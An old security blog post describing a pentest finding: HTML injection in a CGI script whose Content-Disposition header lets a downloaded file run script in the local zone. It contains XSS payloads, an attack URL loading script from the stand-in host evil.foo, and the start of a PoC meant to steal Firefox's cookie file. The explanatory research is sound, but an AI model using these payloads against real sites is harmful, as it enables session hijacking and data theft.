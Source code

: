 ```yaml
---
title: Content-Disposition Hacking
author: adrian-pastor
date: Mon, 05 Nov 2007 12:44:31 GMT
template: this/views/post.jade
---
```


In a recent pentest, a colleague of mine pointed out to me a script/html injection vulnerability on one of the hosts we were testing. I then copied and pasted the GET request he forwarded to me on telnet and verified that JavaScript could indeed be injected through the non-sanitized parameter. There were no restrictions on the input length or types of characters. No filtering whatsoever. The attack goes as the following:

    GET /cgi-bin/vulnerable.cgi?param=<script>alert(document.location)</script> HTTP/1.1
    Host: www.target.foo
    Connection: close

    HTTP/1.1 200 OK
    Server: Apache
    **Content-Disposition: attachment; filename=button.html**
    Content-Length: 41
    Content-Type: application/octet-stream

    <script>alert(document.location)</script>

    This was very interesting. When I pasted the test URL (_http://www.target.foo/cgi-bin/vulnerable.cgi?param=<script>alert(document.location)</script>_) in my browser, I thought "OK, this is pretty useless, as the browser doesn't render the HTML/JS, but rather prompts me to either open or download the file `button.html`". The file to download would contain the payload supplied to the `param` parameter. Eventually, I realize that this happens due to the server returning a [Content-Disposition](http://support.microsoft.com/kb/260519)/attachment HTTP header (see Server's response above).

    Perhaps `vulnerable.cgi` was a legacy script that used to be used for dynamically generating the HTML of a menu button. For some reason the server appeared to be misconfigured and would return a `Content-Disposition` header when generating `button.html`. Whatever the case is, I then realized that this html injection bug wasn't as useless as I had thought, but could eventually lead to a _Cross-context Scripting_ attack. _The requirement is that the victim is tricked to open the file once the browser's download dialog appears (the kind of a drive-by-download attack would use)_. For those of you who don't know, the idea of a _Cross-context Scripting_ is to break from the domain-based sandbox to gain local-context privileges (a.k.a. local zone), so that your malicious script can gain access to any data in the local system. Let's proceed to the attack:

    http://victim.foo/cgi-bin/vulnerable.cgi?param=%3cscript%20src=http://evil.foo/evil.js%3e

    You might be better off including the whole payload directly, as opposed to including it from a third-party site through script src. I'm saying this because IE 7 won't allow you to call JavaScript from a third-party website when opening a HTML file locally. So to come around this, simply insert all the JavaScript in the HTML body directly. I prepared a PoC which is based on a payload I [wrote](/blog/web-pages-from-hell-2/) a year ago. The idea is that if the user is tricked to visit the attack URL, and then clicks on `Open as`, Firefox's cookies file - which contains the session IDs of ALL visited domains gets stolen. Not very nice, isn't it?

    // evil.js - Adrian Pastor (pagvac) - GNUCITIZEN.org
    document.write("<html><head></head><body><form method="POST"><input type="hidden" name="stolenfile"></form>");
    // This code was written by Tyler Akins and has been placed in the
    // public domain.  It would be nice if you left this header intact.
    // Base64 code from Tyler Akins -- http://rumkin.com
